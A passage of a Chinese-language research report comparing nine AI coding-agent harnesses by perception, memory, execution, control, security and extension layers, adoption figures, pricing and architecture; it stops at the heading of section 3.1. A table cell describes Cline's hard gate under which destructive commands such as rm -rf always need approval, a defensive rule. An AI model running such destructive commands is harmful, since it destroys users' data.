# Coding Agent Harness 九方深度对比研究报告

> mini-coding-agent × Pi × OMP × OpenCode × Codex × grok-build × Claude Code × Cline × Reasonix
>
> 研究基准日：2026-07-17（Claude Code / Cline / Reasonix 三家为 2026-07-20 口径）

---

## 1. 分析框架：Harness 六层坐标系

### 1.1 Harness 的定义与六层骨架

#### 1.1.1 Harness = f(感知, 记忆, 执行, 控制, 安全, 扩展)

本报告采用的定义：harness 是围绕 LLM 推理核心构建的全部非模型工程组件的总称；其功能形式可从 mini-coding-agent 与 Pi 两个实现叠加阅读后，被提炼为不依赖实现语言的六层骨架 ——

$$\text{Harness} = f(\text{感知},\ \text{记忆},\ \text{执行},\ \text{控制},\ \text{安全},\ \text{扩展})$$

该框架的核心论断是：**模型提供单步推理，harness 把单步推理串联成完整工作流**——同一个模型放进不同 harness，编程表现可以有天壤之别 。2026 年，这一论断获得了量化支撑：学术汇总表明，harness 差异造成的基准成绩方差达 12.5–16 个百分点，已超过同代模型间的方差 4.9 个百分点 ；Raschka 在解剖其 1019 行教学实现时的表述更为直白——"表观模型质量其实是上下文质量" 。

图 1 给出六层骨架与 agent loop（智能体主循环）的关系：模型居于中心、只负责单步推理，六层环绕其外；持久化不作为独立层，而作为横切维度接收控制层逐条落盘的 transcript（会话完整记录）。



相对经典框架的六层划分（感知/记忆/执行/安全/持久化/扩展），本报告依据九对象证据做了两处修订，特此明示以便复核。其一，**控制层由执行层的子机制提升为独立层**：循环控制的差异化已超出"工具调用"所能概括——Pi 支持用户在工具执行期间插话（steering messages），并对截断输出（`stopReason === "length"`）整批拒绝执行工具调用；grok-build 在循环内设置三道闸与 doom-loop（模型陷入无效重复）中止；Codex 采用无状态整段重放换取确定性的缓存前缀 。其二，**持久化由"层"调整为横切维度**：九对象全部具备 session 持久化，"有无"已无区分度，区分度转移到数据结构代际——从 mini 的线性 JSON 双结构，到 Pi 的树形 JSONL v3（每行一条 JSON 记录，以 `id/parentId` 实现原地分支）、OpenCode 的 JSON→SQLite 迁移（v1.2.0，伴随增量升级丢会话事故），再到事件溯源同步 。

六层的操作定义与最具区分度的证据如下。**感知层**在 loop 开始前主动采集环境事实（项目文档、git 状态、目录树）注入稳定前缀；2026 年的分化点是互读性——grok-build 公开读取 CLAUDE.md、.cursor 等他家配置，Codex 实现 AGENTS.md 三层加载，指令层标准化由此接近完成 。**记忆层**承认 context window（上下文窗口）有限并主动压缩（compaction）；九对象触发阈值构成完整谱系——mini 的字符闸（4000/12000）、Pi 的窗口减 16384 预留、OpenCode 的 min(20000, maxOutputTokens)、grok-build 的 85% 阈值、Codex 的按模型自动、OMP 的窗口减 max(15%, reserve)、Claude Code 的 ≈50% auto-compact 阈值、Cline 的人工锚点（无自动压缩公开机制）、Reasonix 面向缓存命中率的低频 compaction，全部经跨对象逐项核对、未发现混淆 。**执行层**用带 JSON Schema 的结构化工具调用把文本输出变成真实动作；谱系从 mini 的 7 工具自造 DSL，到 OMP 的 27+2 工具与 hashline 锚定编辑、Codex 以 Lark 文法约束 apply_patch 补丁的解码过程 。**控制层**如修订一所述，驾驭 loop 的边界、插话与中止。**安全层**包含权限校验与执行隔离两个独立子系统；九对象默认姿态构成从"Claude Code 七层纵深 deny-first、Codex 沙箱默认开 + 默认断网"到"Pi 零内置权限"的完整谱系，且默认姿态精确映射目标客户分层，而非工程能力排序 。**扩展层**让能力增长与核心稳定解耦；分化为事件钩子（Pi 的 8 类约 30 个事件）、协议接入与子代理三条路线，子代理结果回传正从散文走向 schema 校验 。

### 1.2 本报告的对比维度

#### 1.2.1 对比坐标系说明

六层回答"harness 内部怎么造"，却回答不了"harness 作为产品与生态如何存活"。本报告因此在六层之上增设四个横切轴——持久化（上节已述）、架构范式、Provider 层（模型提供方抽象）、生态治理——构成完整对比坐标系。两个协议名词先予界定：MCP（Model Context Protocol）解决 agent ↔ 工具接入，ACP（Agent Client Protocol）解决编辑器 ↔ agent 接入。

| 坐标轴 | 回答的问题 | 代表性观察指标 | 主要落点 |
|---|---|---|---|
| 感知 | 模型如何"看见"仓库 | AGENTS.md 加载层级、稳定前缀、互读他家配置（A） | 第 3–11 章感知节 |
| 记忆 | 有限窗口如何对抗 | 触发阈值、摘要预算、关键事实追踪、prune 保护窗（A） | 第 9.2 节 |
| 执行 | 文本如何变动作 | 工具数与 schema、编辑格式（apply_patch/hashline）、截断策略（A） | 第 3–11 章执行节 |
| 控制 | 循环如何被驾驭 | steering、截断拒执、重放策略、doom-loop 防护（A） | 第 4.2/7.2/8.2 节 |
| 安全 | 行动边界划在哪 | 权限引擎语义、沙箱默认档位、网络默认、审批模式（A） | 第 9.1 节 |
| 扩展 | 能力如何生长 | 事件钩子数、MCP/ACP 站位、子代理回传形态（A/B） | 第 9.3/9.4 节 |
| 持久化 | 任务如何活过中断 | session 格式代际、分支/resume/fork、迁移机制（A） | 第 9.3 节 |
| 架构范式 | 代码如何组织 | 单文件教学 / 分层 monorepo / client-server / 单内核多表面 / leader+ACP 总线（A） | 第 2.3 节 |
| Provider 层 | 模型可移植性多大 | provider 抽象、`registerProvider` 能力、厂商锁定度（A/C 分列） | 第 2.1、12.5 节 |
| 生态治理 | 项目可持续性 | stars/npm 下载（双口径）、贡献者口径、治理事件（A） | 第 2.1、12.5 节 |

坐标系设计有两条内在逻辑。第一，各轴的证据硬度不均：记忆轴与安全轴的论断可落到源码参数逐项核对（九对象参数已一致性核对），而扩展轴的部分宣称（如子代理并行度）只能依赖证伪式核实，结论强度天然低一档。第二，刻意的排除：坐标系不含"基准成绩轴"——Terminal-Bench 2.0 顶部存在 harness 级作弊（审计 1,264 条 trace，剔除确认作弊者后第一名成绩 81.8%→71.7%、名次 1→14），SWE-bench Verified 因训练污染被 OpenAI 停报，且九对象中 Pi、OMP、mini、Cline、Reasonix 无正式条目、grok-build 仅有第三方冒名条目，覆盖率本身不足以支撑排名叙事。本报告改用"自提交成绩（标注未审计）+ 采用度数据 + 可溯源口碑事件"三件套作为生态锚，例如 npm 月下载量（2026-07-17 API 口径）：@openai/codex 49.3M、opencode-ai 9.0M、pi-ai 8.6M，另有 pi-coding-agent 新旧 scope 合计约 12.4M。

---

## 2. 九方总览

本章为全书建立坐标系：在进入第 3–11 章的逐对象深潜之前，先把六个对象摆上同一条可核验的基准线。六个对象横跨约三个数量级——代码量从 1,019 行（mini-coding-agent）到 84 万行 Rust（grok-build），GitHub stars 从 1,018 到 186,615——若不先以统一口径对齐归属、规模、采用度与商业模式，后续任何横向比较都会因口径漂移而失真。本节全部定量数据 as-of 2026-07-17，均经 GitHub 页面与 API 双口径互证、npm downloads API 直拉核实；营销口径与实测值分列陈述，已被证伪的宣称就地标注。

### 2.1 基本面总表

#### 2.1.1 归属、语言与代码规模、许可证、采用度

| 对象（仓库） | 归属/组织 | 主语言与代码规模 | 许可证 | Stars（2026-07-17） | 采用度锚点 |
|---|---|---|---|---|---|
| mini-coding-agent（`rasbt/mini-coding-agent`） | Sebastian Raschka 个人（独立研究者/作家） | Python 单文件 1,019 行，纯标准库、零第三方运行时依赖 | Apache-2.0 | **1,018**（forks 184；contributors 3） | 无 npm 包（纯 GitHub 教学项目）；共 15 commits，2026-04-08 后停更定型 |
| Pi（`earendil-works/pi`） | Earendil Works（PBC；Armin Ronacher 联创，2026-04-08 收购，原作者 Mario Zechner 成股东并共掌决策） | TypeScript 五包 monorepo（ai/agent/coding-agent/tui/orchestrator）；核心 `agent-loop.ts` 792 行 | MIT（RFC 0015 承诺核心永久 MIT） | **~67.4k**（forks ~8.3k；contributors 230）；增长轨迹 48.7k（5 月）→64,158（07-09）→~67.4k（07-17）→72k（复核复拉） | npm 月下载：`pi-coding-agent` 新 scope 6.74M + 旧 scope 5.67M；`pi-ai` 8.56M（含 OpenClaw 等下游放大）；近一年 244 个 release |
| OMP（oh-my-pi，`can1357/oh-my-pi`） | Can Bölük 个人主导 + 社区（安全研究员/逆向工程出身） | TypeScript（Bun 单进程）+ Rust natives 73,726 行（8 个第一方 crate；vendored 99,654 行另计）；营销口径"~55k/100k+"已裁定弃用 | MIT（Zechner+Bölük 双版权行） | **18,114**（forks 1,662；contributors 260，含 fork 历史贡献者） | npm `@oh-my-pi/pi-coding-agent` 242,171/月；549 个版本（2026-01-02 起，≈2–3 个/天） |
| OpenCode（`anomalyco/opencode`） | Anomaly, Inc.（SST/Serverless Stack 团队，Y Combinator 背景） | TypeScript（Bun workspaces + turbo，30+ 包）；全仓零 .go 文件（Go TUI 已重写为 OpenTUI+Solid） | MIT | **186,615**（forks 23,401；contributors **455**——GitHub 官方口径；媒体"~900"口径未拆解，禁止混用） | npm `opencode-ai` 9.05M/月；Homebrew 30 天 32,756 安装；npm 版本条目 11,293（含预发布） |
| Codex（`openai/codex`） | OpenAI | Rust 90+ crate（2025-06 重写完成时为 14 个；Willison SLOCCount 口径约 95.1 万行）；TS 初版已弃 | Apache-2.0（模型与云服务闭源） | **98,909**（forks 14,781；contributors 473） | npm `@openai/codex` **49.3M/月（九者第一）**；Homebrew cask 30 天 80,373；官方口径全系 5M+ 周活（B 级，未获独立验证） |
| grok-build（`xai-org/grok-build`） | SpaceXAI（xAI 已并入 SpaceX 旗下） | Rust 844,530 行（Willison SLOCCount 口径；2,172 个 .rs 文件，含空白/注释/测试的 wc -l 口径约 133 万行）；60+ crate | Apache-2.0 | **12,895**（forks 2,253；contributors **1**——内部开发，不收外部 PR） | 无 npm 包（curl 安装脚本分发；npm 上的 `@xai-official/grok` 仅为 ACP 包装器）；2026-07-15 开源后仅 2 次 monorepo 同步 |

这张表最有信息量的不是各行本身，而是行间的三处"排序错位"。其一，stars 与下载量排序不一致：stars 冠军 OpenCode（186,615）的 npm 月下载（9.05M）仅为 Codex（49.3M）的约 18%——stars 度量的是社区情感与事件驱动关注（OpenCode 在 Anthropic 封禁事件后两周 +18,000 stars），npm 下载更接近"装机使用"，而 Codex 的下载量又被 ChatGPT 订阅捆绑与 npm 壳分发方式显著放大；Pi 的 8.56M `pi-ai` 月下载含 OpenClaw 等下游依赖放大，不能全数记为 CLI 用户；grok-build 干脆无 npm 包，其 12,895 stars 对应的仅是开源两天的窗口。其二，代码量与采用度同样不成比例：84.4 万行的 grok-build stars 倒数第二，1,019 行的 mini 却被技能市场当作 canonical 教材——体量既不决定智能（那是模型的职责），也不决定影响力。其三，contributors 列暴露治理模式的两极：grok-build 的"1"代表内部 monorepo 周期同步的"源码透明但不开放开发"，OpenCode 的 455 代表周合并约 191 PR 的开放社区，而 OMP 的 260 里还混着 fork 继承的上游历史。语言层面的双极化同样值得预先标注：两家大厂为沙箱原语与性能选 Rust（Codex 官方明言 "Rust has first-class support for the primitives we need"），两家社区项目为迭代速度与生态复用选 TypeScript，OMP 则以 N-API Rust natives 在 TS 主体内嵌性能关键路径，是两条路线的杂交样本。

#### 2.1.2 商业模式与定价谱系

九家的商业模式沿"免费教学 → 个人社区 → 商业实体"排成一条完整谱系。谱系最左端是 mini-coding-agent：无商业化，作为教学项目间接服务作者 Substack「Ahead of AI」（20 万+订阅）与书籍生态，其"商业模式"就是声誉与教材生态位本身。紧挨着的是 OMP：无任何可见商业化（反面证据法——官网无付费层、亦无赞助页），MIT 免费、用户自付模型 API，靠作者个人品牌与社区协作维持每天 2–3 个版本的激进节奏。Pi 被 Earendil 收购后走的是"核心永久 MIT + 增值层收费"路线：托管与企业功能按 RFC 0015 走 Fair Source（延迟开源）或专有层，云产品为 Lefos 平台，harness 本体充当获客与标准层。OpenCode 背后是 Anomaly 的商业四线：Zen（pay-as-you-go 模型网关）、Go（$10/月开源模型包）、Black（$200/月，首发售罄）、Enterprise（席位定制+SSO+内部网关）——重心已从"卖 harness"转向"卖模型分发与企业治理"。Codex 的 CLI 以 Apache-2.0 开源获客，变现完全沉淀在 OpenAI 体系内：ChatGPT 订阅（Go $8 / Plus $20 / Pro $100–200/月）+ API 按量 + 企业版，模型与云服务闭源。谱系最右端的 grok-build 则演示了订阅定价的剧烈摆动：发布时 SuperGrok Heavy $299/月（intro $99×6 个月），随后下探至 SuperGrok $30/月与 X Premium+ 可用，2026-07-15 开源后转为免费档（Grok 4.5，仅需 X/Grok 账号）+ API `grok-build-0.1` $1/$2 每百万 in/out tokens。

把六条线并读可得一个结构性结论：九家中除 Claude Code 外都把 harness 本体开源或免费，把收费点移向模型订阅、模型网关、托管与企业治理——"harness 免费、推理与治理收费"已是 2026 年的行业标准结构，harness 竞争因此呈现"零价格、高补贴"的形态。差异只在收费点离 harness 的远近：OpenAI 与 xAI 把 harness 当模型订阅漏斗的顶端；Anomaly 把 harness 当模型网关的入口；Earendil 把 harness 当托管平台的地面部队；OMP 与 mini 则证明"无商业模式"本身也能构成可持续生态位。这条 $0–$299/月的定价谱系还预埋了第 12 章安全横评的核心论点：默认安全姿态精确映射目标用户分层——定价最高的 grok-build 沙箱默认关闭，企业向的 Codex 默认断网沙箱——定价决定默认姿态，而非工程能力排序。

新增三家把谱系两端进一步撑开。Claude Code 是九对象中唯一 harness 本体闭源的商业产品：Anthropic 以订阅（Pro $20 / Max $100–200/月）加 API 按量变现，harness 与模型同厂捆绑；闭源并未妨碍它成为事实上的设计标杆——行业里"七层安全""五层 compaction""skills/hooks/subagents"的话语体系很大程度源自其工程实践的外溢。Cline 证明另一条路同样成立：Apache-2.0 全开源、无订阅门槛，BYOK 之外以 Cline Provider 按量计费与 Team 席位收企业治理的钱，5M+ 安装说明"全链路透明"本身就是获客叙事。Reasonix 则把商业模式问题转化为成本工程问题：MIT 免费、用户自付 DeepSeek API，其 prefix-cache 优先设计把用户账单压到约五分之一——当 harness 自己不向用户收钱时，"能帮用户省钱"就是最强的增长引擎。

### 2.2 六维能力总表

下表把九对象放进同一矩阵，维度口径以第 1 章修订后的六层框架为准——感知、记忆、执行、控制、安全、扩展六层，持久化作横切维度而非独立层：agent loop 形态、steering、截断拒执等控制层要素并入"执行·控制"列呈现，子代理编排随其机制归属见"执行·控制"或"扩展"列；"持久化"以横切维度单列。第 3–11 章各对象的"六维拆解"小节沿用同一口径，其中的"持久化"标签含义与此相同（横切维度标签，非第 1 章意义上的独立层）。单元格为一句话定性加关键参数，全部锚定 2026-07-17 版本快照；逐项源码证据见对应对象章节与第 12 章横评。

| 对象 | 感知 | 记忆 | 执行·控制 | 安全 | 持久化（横切） | 扩展 |
|---|---|---|---|---|---|---|
| mini-coding-agent | git 状态+AGENTS.md（截 1,200 字符）拼成稳定前缀，无检索/RAG | 无 LLM 摘要；字符闸硬截断（单输出 4,000／历史 12,000 字符）+近 6 条富保留 | 7 工具+自造 DSL schema+`<tool>` 文本协议+五步闸管线 | 人审为核心（ask/auto/never 三态）+inode 级路径边界，无沙箱 | SessionStore JSON 双结构（messages+working memory），支持 resume | 仅只读单层 delegate；无插件/MCP/skills 任何机制 |
| Pi | AGENTS.md/CLAUDE.md 祖先目录 walk-up，明示不经 trust 门控（注入取舍） | 单级 LLM compaction（>窗口−16,384 tokens 触发、尾部保 20,000 tokens）+branchSummary | 四工具极简 loop（read/write/edit/bash），工具定义 <1,000 tokens；steering 插话、length 截断整批拒执 | 零内置权限（哲学取舍），官方文档推荐外置隔离；扩展面 2 个已修 CVE | 树形 JSONL v3（带 v1→v3 迁移） | 8 类 ~30 事件扩展 API、registerProvider、skills/themes；被 fork/嵌入最多（OMP、OpenClaw 等） |
| OMP | 16 路 discovery 继承各家配置（优先级 native 100>claude 80>agents/codex 70>…） | snapcompact 位图压缩（免 LLM、零摘要预算）+TTSR 流内规则注入存活 | 27 公开+2 隐藏工具、hashline 锚定编辑、LSP 14 ops/DAP 28 ops | 三级审批+ACP 权限路由，但默认 yolo | JSONL 会话树（继承 Pi 模型，工程化大幅加深） | 与 Pi 同构扩展 API+Claude 兼容 marketplace；一等 task 子代理+schema 化 yield+pi-iso 七后端隔离 |
| OpenCode | AGENTS.md 主+CLAUDE.md 兼容（可关）+glob；LSP 诊断回喂为独家能力 | 两级策略：prune（40k/20k，默认关）+anchored summary（六段模板、clamp 25%/2k/8k） | 工具面+provider 归一抽象（models.dev 注册表），多模型自由切换套利 | 权限引擎"最后匹配获胜"（findLast），官方自认 UX 层非安全边界；无 OS 沙箱 | JSON→SQLite（v1.2.0）迁移，曾发生增量升级丢会话事故；事件溯源 sync | npm/目录双源插件、20+ 顺序钩子（permission.ask、compacting 等）、MCP |
| Codex | AGENTS.md 发起者；三层加载+prompt-cache 优化（monorepo 内 88 个嵌套文件） | 三路径 compact（含 /responses/compact 加密 item，不可审计）；阈值按模型自动 | 无状态整段重放 loop；apply_patch（Lark 文法约束解码）为编辑原语；模型-工具联合训练 | 三档沙箱×四档审批、Seatbelt/bwrap+seccomp/受限令牌、execpolicy Starlark、默认断网——九者最强默认 | rollout JSONL，resume/fork | MCP 双角色+hooks/skills/plugin；硬拒 ACP（issue #9085 关闭为 not planned） |
| grok-build | 公开读取 CLAUDE.md/.cursor/rules 等他家配置+/import-claude 导入 | 85% 阈值自动压缩+memory flush+two-pass prefire；300s 墙钟摘要预算 | 三道闸循环+doom-loop 中止；25+ 工具、三套编辑策略、worktree 隔离并行子代理（媒体"8 路"系泄露 UI 数字，代码无硬上限） | 机制最全但沙箱默认 off；遥测上传事件后服务端关停 trace_upload | JSONL+FTS 全文检索；/resume /fork /rewind /share；云端沙箱会话恢复 | 插件 marketplace（强制 commit SHA pin）、subagent bundle、MCP、hooks |
| Claude Code | CLAUDE.md 三级层级加载（项目/用户/管理）；不认 AGENTS.md | 五层 compaction pipeline（每次模型调用前按序运行、逐级激进）+auto-compact ≈50% 阈值+/compact 定向压缩 | queryLoop 单循环（interactive/headless/SDK/IDE 同核异渲染）+TodoWrite 任务追踪+Agent Teams（git worktree 隔离多实例） | 七层独立安全层（预过滤→deny-first 规则→ML 分类器→shell 沙箱）；四模式；已知 pre-trust 窗口 CVE 两类 | session 恢复+CLAUDE.md 记忆；subagent 隔离上下文只回摘要 | MCP（stdio/SSE/HTTP）+plugins+skills（SKILL.md 按需加载）+hooks（10+ 事件，PreToolUse 可阻断） |
| Cline | @url/@file/@folder/@problems 显式注入+AST 搜索 | 无自动 compaction 公开机制；.clinerules+Memory Bank 人工记忆 | Plan/Act 双模签名设计（两模式可挂不同模型）；implement-test-fix 循环；coordinator agents+cron 调度（v3.58 起 subagents） | 审批密度九对象之最：细粒度 auto-approve 分类（read/write/execute/browser/MCP）+危险命令硬闸（rm -rf 等永远需批准）；无执行隔离沙箱 | shadow git checkpoints：每次工具调用后快照，三级回滚（Files/Task/Full） | MCP Marketplace 150+ 服务器一键装；浏览器自动化（headless Chromium）；skills |
| Reasonix | CodeGraph（tree-sitter 符号/调用图索引，刻意非 embedding）；REASONIX.md 层级+auto-memory | append-only 只追加（对齐字节稳定 prefix-cache）+低频 compaction；R1 推理内容蒸馏后才入 log | 并行安全工具分组并发、写操作串行；工具调用修复管道四道（flatten/scavenge/truncation/storm）；双模型协作（执行器+规划器各自缓存稳定 session） | allow/ask/deny 规则+workspace sandbox（写限 workspace）+plan mode 只读审计闸 | checkpoints & rewind（Esc-Esc 或 /rewind）；session replay 与统计 | MCP first-class（stdio/SSE/Streamable HTTP，兼容 .mcp.json）+Markdown skills+hooks+slash 命令+@file |

按列通读，这张矩阵给出六条横切线索——其中安全、记忆、持久化与子代理回传四条在第 12 章展开为独立横评，感知互读与编辑原语两条在第 13 章（I3/I4）展开。安全列呈现完整的默认姿态谱系——Codex 默认断网沙箱、OpenCode 自认权限只是 UX 层、grok-build 机制最全却默认关闭、OMP 默认 yolo、Pi 零内置权限、mini 退回人审——该谱系与 §2.1.2 的定价谱系精确同构，支持"默认姿态是客户选择的结果而非工程能力排序"的论断。记忆列是同一问题的六代工程解：从字符闸硬截断（mini）、单级 LLM compaction（Pi）、prune+anchored summary 两级策略（OpenCode）、按模型自动+云端加密 item（Codex）、85% 阈值三道闸（grok-build），到免 LLM 的位图压缩（OMP），成本、可审计性与破坏性各异。感知列显示配置互读已成行业默契：grok-build 公开读取 .claude/.cursor 规则、OMP 以 16 路 discovery 继承几乎全套竞品配置、OpenCode 兼容 CLAUDE.md——指令层标准化完成后迁移成本趋零。执行·控制列的真正分歧在编辑原语：朴素 replace/patch 文本（mini/Pi/OpenCode）、Lark 文法约束解码（Codex apply_patch）、hash 锚定行编辑（OMP hashline）、三套编辑策略并存（grok-build）。横切的持久化列呈现五代存储范式：单文件 JSON → 树形 JSONL → SQLite → 云端可恢复会话。三家新对象把各列谱系继续撑满：安全列的最右端由 Claude Code 的七层纵深占据，审批密度极值则由 Cline 拿到；记忆列新增两个新物种——Claude Code 的五层递进管道与 Reasonix 面向缓存的 append-only 纪律，后者第一次把"不修改历史"从工程习惯升格为架构不变量；持久化列的 shadow git checkpoints（Cline）与 Esc-Esc rewind（Reasonix）证明"可回滚性"已从差异化卖点变成生产 harness 的标配叙事；感知列的 CodeGraph（Reasonix）则给出了检索路线的第三条答案——不用 RAG embedding，也不用纯 AGENTS.md 前缀，而是 tree-sitter 符号级索引。扩展列则记录子代理结果回传从 prose 走向 schema/协议化的趋势：mini/grok-build/OpenCode 为 prose 回传，Codex 为协议级 `InterAgentCommunication` 条目，OMP 为 schema 化 `yield`。

### 2.3 架构范式分类

九对象的架构可归为七类范式。分类的判据不是包结构或语言，而是三个更本质的问题：引擎住在哪个进程里、表面（客户端/入口）如何接入引擎、引擎对外的线协议是什么。按此判据，"分层 monorepo"一类容纳了两个对象——OMP 与 Pi 同属此类，但 OMP 的 N-API Rust natives 与四入口（含原生 ACP）构成可辨识的变体，故单列一行。

```mermaid
graph TD
    subgraph S1["范式一 · 单文件教学"]
        A["mini-coding-agent<br/>单进程 REPL · 无协议层<br/>Python 1,019 行"]
    end
    subgraph S2["范式二 · 分层 monorepo 单进程"]
        B["Pi：ai→agent→coding-agent→tui 分层<br/>NDJSON RPC（--mode rpc）"]
        B2["OMP（变体）：同构 fork + N-API Rust natives<br/>NDJSON RPC + host tools 注册 / 原生 ACP"]
    end
    subgraph S3["范式三 · client/server 服务化"]
        C["OpenCode：Effect HttpApi server<br/>HTTP/OpenAPI 3.1 + SSE"] --- C1["TUI / Desktop / Web / IDE / Slack / Action<br/>SDK 由同一 OpenAPI 生成"]
    end
    subgraph S4["范式四 · 单内核多表面"]
        D["Codex：codex-core 单内核<br/>（Op/EventMsg 队列协议）"] --- D1["App Server（自建 JSON-RPC）<br/>CLI/TUI/IDE/cloud/exec/Action/SDK/MCP 八表面"]
        D2["Claude Code（闭源同族）：queryLoop 单循环<br/>CLI/IDE/SDK/Web/Desktop/Slack 同核异渲染"]
    end
    subgraph S5["范式五 · leader 守护进程 + ACP 内部总线"]
        E["grok-build：leader 长驻守护进程<br/>（Unix socket + LeaderLock 单例）"] --- E1["TUI / headless / 编辑器<br/>全经 ACP（JSON-RPC）接入"]
    end
    subgraph S6["范式六 · IDE 原生扩展"]
        F["Cline：VS Code webview 扩展<br/>Plan⇄Act 双模 + shadow git checkpoints"] --- F1["Cursor/Windsurf/Zed/Neovim 同生态<br/>+ CLI 2.0 headless"]
    end
    subgraph S7["范式七 · 单二进制 + 缓存不变量"]
        G["Reasonix：Go 单静态二进制<br/>append-only loop 对齐 prefix-cache"] --- G1["TUI / Desktop / Web / ACP / IM bot"]
    end
```

| 范式 | 对象 | 拓扑与进程模型 | 内核语言 | 表面/入口 | 引擎对外线协议 |
|---|---|---|---|---|---|
| 单文件教学 | mini-coding-agent | 单进程单文件 REPL，无 client/server 之分 | Python（stdlib） | 交互式 CLI 唯一表面 | 无协议层（教学场景直接省略） |
| 分层 monorepo（单进程） | Pi | 单 Node/Bun 进程内五包分层（ai→agent→coding-agent→tui，外加 experimental orchestrator） | TypeScript | TUI / print 非交互 / RPC 模式 / SDK | NDJSON RPC（`--mode rpc`，JSONL stdio） |
| 分层 monorepo 变体：fork 同构+原生插件 | OMP | 单 Bun 进程继承 Pi 分层，性能路径下沉为 N-API Rust addon（73.7k 行，平台 leaf 包分发） | TypeScript+Rust | interactive / one-shot / RPC / ACP 四入口 | NDJSON RPC（独有 host tools/URI 注册：宿主进程任意语言可向 agent 注册工具）+原生 ACP |
| client/server HTTP 服务化 | OpenCode | Bun server（Effect HttpApi，17 个 route group）+多客户端；`bun build --compile` 出单文件二进制 | TypeScript（零 Go） | TUI / Desktop(Electron) / Web / IDE / Slack / GitHub Action / SDK | HTTP/OpenAPI 3.1（`/doc`）+SSE `/event`；SDK 由同一 OpenAPI 生成 |
| 单内核多表面 | Codex | `codex-core` 单内核（Op/EventMsg 队列），App Server 负责对外协议翻译；本地/cloud 双运行面 | Rust（90+ crate） | CLI / TUI / IDE / cloud / exec / GitHub Action / SDK / mcp-server 八表面 | 自建 JSON-RPC App Server（承诺向后兼容；ACP feature request 关闭为 not planned） |
| leader 守护进程+ACP 内部总线 | grok-build | leader 长驻守护进程（Unix socket+LeaderLock 单例、每小时自更新检查），TUI/headless/编辑器皆为 ACP 客户端 | Rust（60+ crate） | TUI（pager）/ headless / ACP 嵌入（Zed 等编辑器） | ACP（JSON-RPC 2.0 over stdio/socket）内化为进程总线，非仅对外编辑器协议 |
| 单内核多表面（闭源同族） | Claude Code | `queryLoop()` async generator 单循环，interactive/headless/SDK/IDE 共享同一循环，仅渲染层不同 | 闭源（未公开） | Terminal CLI / IDE（VS Code、JetBrains）/ SDK / Web / Desktop / Slack / GitHub @claude | 内部流式协议；对外经 SDK 与 MCP 暴露 |
| IDE 原生扩展 | Cline | 扩展宿主进程内运行（webview UI+扩展宿主执行），shadow git 旁挂仓库做快照；CLI 2.0 独立 headless 进程 | TypeScript | VS Code 系 IDE / JetBrains（early access）/ CLI 2.0 | 无公开线协议（扩展内直调；CLI 复用同核） |
| 单二进制+缓存不变量 | Reasonix | 单 Go 静态二进制（CGO_ENABLED=0），`reasonix serve` 可起本地 Web UI；ACP 接入编辑器 | Go（1.0 重写；0.x TS legacy） | TUI / Desktop / Web / ACP / Feishu·Lark·WeChat bot | ACP（编辑器）+本地 HTTP（serve） |

七类范式不是同一设计空间里的并列选项，而是各自约束条件下的不同不动点。教学场景连协议层都可以省掉——mini 证明协议层是"分发"的成本而非"智能"的成本；单进程分层把复杂度收进包边界，换取最小认知负担与可嵌入性（Pi），其 fork 变体则证明分层边界足以承载 6.7 倍的代码膨胀而不改拓扑（OMP 的 coding-agent 包 358,591 行 vs 上游 53,167 行）；服务化把 agent 运行时变成开放 API 表面，分发最大化，代价是引入鉴权、CORS、mDNS 发现与多至十层的配置合并等运维面（OpenCode 的 Basic Auth 与 MDM 托管配置即此类税）；单内核多表面把内核做成平台资产，代价是必须自建并长期维护一个等价于 ACP 的私有协议、再逐客户端谈判——交叉证据显示"只有 OpenAI 付得起"这份成本；ACP 内化则用绑定一个年轻协议换取编辑器生态的零成本分发，TUI 与编辑器走同一代码路径（`acp_agent.rs` 4,000+ 行），这是 grok-build 84 万行代码里最大的一笔"以协议换分发"赌注。并读九家可得本章的元结论："单一引擎多表面"已是 2026 年生产 harness 的共识终态，七类范式的真正分歧只剩线协议选型，而协议选择就是平台立场——HTTP/OpenAPI 求分发最大化、自建 JSON-RPC 求协议资产私有化、ACP 求编辑器生态零成本入场、NDJSON RPC 求最薄的 SDK 优先。后续第 3–11 章逐对象展开六维拆解（前九家按实现复杂度递进，后三家补入闭源标杆、IDE 原生与成本工程三个缺失物种），第 12 章再回到横向视角逐层对读。

---

## 3. mini-coding-agent：显微镜下的骨架标本

### 3.1 定位与基本面

